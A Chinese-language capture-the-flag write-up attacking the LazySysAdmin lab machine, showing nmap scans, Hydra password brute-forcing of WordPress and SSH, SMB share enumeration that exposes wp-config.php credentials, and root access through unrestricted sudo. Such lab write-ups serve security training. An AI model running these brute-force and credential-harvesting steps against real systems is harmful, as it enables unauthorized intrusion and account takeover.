







## 端口扫描

```bash
──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --min-rate 9999 -p- 10.10.10.29
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-10 08:12 EDT
Nmap scan report for 10.10.10.29
Host is up (0.0021s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
6667/tcp open  irc
MAC Address: 00:0C:29:AC:93:F8 (VMware)

┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p22,80,139,445,3306,6667 10.10.10.29
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-10 08:15 EDT
Nmap scan report for 10.10.10.29
Host is up (0.00074s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 b5:38:66:0f:a1:ee:cd:41:69:3b:82:cf:ad:a1:f7:13 (DSA)
|   2048 58:5a:63:69:d0:da:dd:51:cc:c1:6e:00:fd:7e:61:d0 (RSA)
|   256 61:30:f3:55:1a:0d:de:c8:6a:59:5b:c9:9c:b4:92:04 (ECDSA)
|_  256 1f:65:c0:dd:15:e6:e4:21:f2:c1:9b:a3:b6:55:a0:45 (ED25519)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 4 disallowed entries 
|_/old/ /test/ /TR2/ /Backnode_files/
|_http-title: Backnode
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-generator: Silex v2.2.7
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
| irc-info: 
|   server: Admin.local
|   users: 1
|   servers: 1
|   chans: 0
|   lusers: 1
|   lservers: 0
|   source ident: nmap
|   source host: 10.10.10.15
|_  error: Closing link: (nmap@10.10.10.15) [Client exited]
MAC Address: 00:0C:29:AC:93:F8 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: LAZYSYSADMIN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2024-03-10T20:16:01
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: lazysysadmin
|   NetBIOS computer name: LAZYSYSADMIN\x00
|   Domain name: \x00
|   FQDN: lazysysadmin
|_  System time: 2024-03-11T06:16:01+10:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 4h39m59s, deviation: 5h46m24s, median: 7h59m59s


┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --script vuln -p22,80,139,445,3306,6667 10.10.10.29
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-10 08:17 EDT
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.29
Host is up (0.00057s latency).

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
| http-sql-injection: 
|   Possible sqli for queries:
|     http://10.10.10.29:80/Backnode_files/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=N%3BO%3DD%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=D%3BO%3DD%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=M%3BO%3DD%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=S%3BO%3DD%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=N%3BO%3DD%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.29:80/Backnode_files/?C=N%3BO%3DA%27%20OR%20sqlspider
|_    http://10.10.10.29:80/Backnode_files/?C=S%3BO%3DA%27%20OR%20sqlspider
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /wordpress/: Blog
|   /test/: Test page
|   /robots.txt: Robots file
|   /info.php: Possible information file
|   /phpmyadmin/: phpMyAdmin
|   /wordpress/wp-login.php: Wordpress login page.
|   /apache/: Potentially interesting directory w/ listing on 'apache/2.4.7 (ubuntu)'
|_  /old/: Potentially interesting directory w/ listing on 'apache/2.4.7 (ubuntu)'
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
6667/tcp open  irc
| irc-botnet-channels: 
|_  ERROR: TIMEOUT
|_irc-unrealircd-backdoor: Server closed connection, possibly due to too many reconnects. Try again with argument irc-unrealircd-backdoor.wait set to 100 (or higher if you get this message again).
MAC Address: 00:0C:29:AC:93:F8 (VMware)

Host script results:
|_smb-vuln-ms10-061: false
| smb-vuln-regsvc-dos: 
|   VULNERABLE:
|   Service regsvc in Microsoft Windows systems vulnerable to denial of service
|     State: VULNERABLE
|       The service regsvc in Microsoft Windows 2000 systems is vulnerable to denial of service caused by a null deference
|       pointer. This script will crash the service if it is vulnerable. This vulnerability was discovered by Ron Bowes
|       while working on smb-enum-sessions.
|_          
|_smb-vuln-ms10-054: false
```

## web渗透
有个irc/6667端口没见过
先试试吧
没什么用
老老实实去看80端口吧

来到漏洞扫描的Backnode_files目录
看到一个很像base64的文件名
解码一下
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ echo AAEAAQAAAAAAAAdJAAAAJDhiNGY1YTk3LTQ3NTctNDE1Ny1hZmU4LTlhMWE4 |base64 -d
I$8b4f5a97-4757-4157-afe8-9a1a8  
```
这里没解出来

看了一下sql注入，好像是误报了，没有测出来

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.29 http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:F=incorrect"

hydra测了一下，没测出来说是

没什么方向了

前面测的端口看一下

测一下139，445
```bash
┌──(kali㉿kali)-[~]
└─$ smbmap -H 10.10.10.29

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 10.10.10.29:445 Name: 10.10.10.29               Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        share$                                                  READ ONLY       Sumshare
        IPC$                                                    NO ACCESS       IPC Service (Web server)
```

有一个share文件夹
smbclient连一下

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo smbclient //10.10.10.29/share$
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ?
```
```bash
smb: \wordpress\> ls
  .                                   D        0  Sun Mar 10 16:19:14 2024
  ..                                  D        0  Tue Aug 15 07:05:52 2017
  wp-config-sample.php                N     2853  Wed Dec 16 04:58:26 2015
  wp-trackback.php                    N     4582  Sun Mar 10 16:19:13 2024
  wp-admin                            D        0  Wed Aug  2 17:02:02 2017
  wp-settings.php                     N    16200  Thu Apr  6 14:01:42 2017
  wp-blog-header.php                  N      364  Sat Dec 19 06:20:28 2015
  index.php                           N      418  Tue Sep 24 20:18:11 2013
  wp-cron.php                         N     3286  Sun May 24 13:26:25 2015
  wp-links-opml.php                   N     2422  Sun Nov 20 21:46:30 2016
  readme.html                         N     7413  Sun Mar 10 16:19:13 2024
  wp-signup.php                       N    29924  Tue Jan 24 06:08:42 2017
  wp-content                          D        0  Sun Mar 10 16:19:10 2024
  license.txt                         N    19935  Sun Mar 10 16:19:13 2024
  wp-mail.php                         N     8002  Sun Mar 10 16:19:13 2024
  wp-activate.php                     N     6864  Sun Mar 10 16:19:13 2024
  .htaccess                           H       35  Tue Aug 15 07:40:13 2017
  xmlrpc.php                          N     3065  Wed Aug 31 12:31:29 2016
  wp-login.php                        N    34347  Sun Mar 10 16:19:13 2024
  wp-load.php                         N     3301  Mon Oct 24 23:15:30 2016
  wp-comments-post.php                N     1627  Mon Aug 29 08:00:32 2016
  wp-config.php                       N     3703  Mon Aug 21 05:25:14 2017
  wp-includes                         D        0  Wed Aug  2 17:02:03 2017

                3029776 blocks of size 1024. 1354536 blocks available
smb: \wordpress\> cat
cat: command not found
smb: \wordpress\> get wp-config.php
getting file \wordpress\wp-config.php of size 3703 as wp-config.php (164.4 KiloBytes/sec) (average 164.4 KiloBytes/sec)
```
找到配置文件


找到密码和用户名
Admin/TogieMYSQL12345^^
去试了一下phpmyadmin和wp
wp成功登录

那先去找常规写马利用
```bash
smb: \wordpress\wp-content\themes\twentyfifteen\> ls
  .                                   D        0  Wed Aug  2 17:02:01 2017
  ..                                  D        0  Sun Mar 10 16:19:03 2024
  content-page.php                    N     1117  Tue Dec 16 08:00:22 2014
  archive.php                         N     1914  Thu Dec 11 05:24:21 2014
  search.php                          N     1405  Tue Dec 16 08:00:22 2014
  404.php                             N     3540  Sun Mar 10 17:42:02 2024
  index.php                           N     1765  Thu Dec 11 05:24:21 2014
  content.php                         N     1702  Tue Dec 16 08:00:22 2014
  content-none.php                    N     1166  Tue Dec 16 08:00:22 2014
  content-link.php                    N     1753  Tue Dec 16 08:00:22 2014
  page.php                            N      902  Wed Nov 19 15:28:25 2014
  style.css                           N    97742  Thu Jun  8 00:43:33 2017
  genericons                          D        0  Wed Aug  2 17:02:01 2017
  readme.txt                          N     3501  Thu Jun  8 00:43:33 2017
  single.php                          N     1528  Fri Dec 12 13:37:22 2014
  sidebar.php                         N     1313  Wed Nov 19 15:28:25 2014
  js                                  D        0  Wed Aug  2 17:02:01 2017
  functions.php                       N    13857  Sat Oct 22 21:56:32 2016
  header.php                          N     1846  Wed Mar  9 18:02:28 2016
  rtl.css                             N    12458  Thu May 25 11:19:42 2017
  image.php                           N     2940  Tue Dec 16 08:00:22 2014
  footer.php                          N      823  Tue Dec 16 08:00:22 2014
  content-search.php                  N     1101  Tue Dec 16 08:00:22 2014
  css                                 D        0  Wed Aug  2 17:02:01 2017
  comments.php                        N     1473  Tue Dec 16 08:00:22 2014
  screenshot.png                      N   576231  Fri Mar 18 13:01:29 2016
  inc                                 D        0  Wed Aug  2 17:02:01 2017
  author-bio.php                      N     1141  Tue Dec 16 08:00:22 2014

                3029776 blocks of size 1024. 1354500 blocks available
```
在此目录下找到了404.php，去浏览器访问


没法执行呀

## ssh登录尝试
利用得到的用户名及密码连ssh试试



看之前的wordpress页面
用户名是togie
尝试ssh暴力破解
```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l togie -P /usr/share/wordlists/rockyou.txt 10.10.10.29 ssh                                                                       
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-10 23:30:57
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.10.29:22/
[22][ssh] host: 10.10.10.29   login: togie   password: 12345
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-03-10 23:31:06
```
逆天。
## ssh登录，提权

```bash
togie@LazySysAdmin:~$ sudo -l
Matching Defaults entries for togie on LazySysAdmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User togie may run the following commands on LazySysAdmin:
    (ALL : ALL) ALL
togie@LazySysAdmin:~$ sudo /bin/bash
root@LazySysAdmin:~# 
```
没什么好写的了
